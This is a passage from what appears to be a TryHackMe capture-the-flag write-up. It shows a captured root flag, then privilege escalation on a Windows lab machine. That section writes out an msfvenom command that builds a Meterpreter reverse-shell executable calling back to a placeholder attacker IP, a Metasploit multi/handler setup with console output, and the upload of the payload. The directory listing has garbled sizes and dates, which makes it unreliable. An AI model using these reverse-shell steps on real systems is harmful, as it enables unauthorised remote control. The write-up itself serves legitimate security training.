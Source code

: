   Mode              Size           Type  Last modified                      Name
  ----              ----           ----  -------------                      ----
  100666/rw-rw-rw-  1211180777754  fil   211641783000-06-29 17:21:19 +0100  desktop.ini
  100666/rw-rw-rw-  158913789989   fil   214344271123-10-28 09:41:29 +0000  root.txt.txt
  
  meterpreter > cat root.txt.txt
  THM{aea1e3ce6fe7f89e10cea833ae009bee}
  ```
  
- Now let's create a more stable shell and finish the job.

---

## 👑 Root Privilege Escalation

- First we need to create a payload with Msfvenom.

  ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR-THM-IP] LPORT=7777 -f exe > shell.exe```
  
- Now in another terminal start Metasploit again and run a multi handler exploit.

  ```
  msf6 > use multi/handler
  [*] Using configured payload generic/shell_reverse_tcp
  msf6 exploit(multi/handler) > show options
  
  Payload options (generic/shell_reverse_tcp):
  
     Name   Current Setting  Required  Description
     ----   ---------------  --------  -----------
     LHOST                   yes       The listen address (an interface may be specified)
     LPORT  4444             yes       The listen port
  
  
  Exploit target:
  
     Id  Name
     --  ----
     0   Wildcard Target
  
  
  
  View the full module info with the info, or info -d command.
  
  msf6 exploit(multi/handler) > set lhost [YOUR-THM-IP]
  lhost => [YOUR-THM-IP]
  msf6 exploit(multi/handler) > set lport 7777
  lport => 7777
  msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf6 exploit(multi/handler) > run
  [*] Started reverse TCP handler on [YOUR-THM-IP]:7777 
  ```
  
- Now get back to previous Metasploit session, upload the newly created shell and execute it. After execution you will get a new connection as Administrator on your multi handler.

  ```
  meterpreter > upload shell.exe
  [*] Uploading  : [SNIP!]
  [*] Uploaded -1.00 B of 72.07 KiB (-0.0%): [SNIP!]
  [*] Completed  : [SNIP!]
  meterpreter > ls
  Listing: C:\Users\Administrator\Desktop
  =======================================
  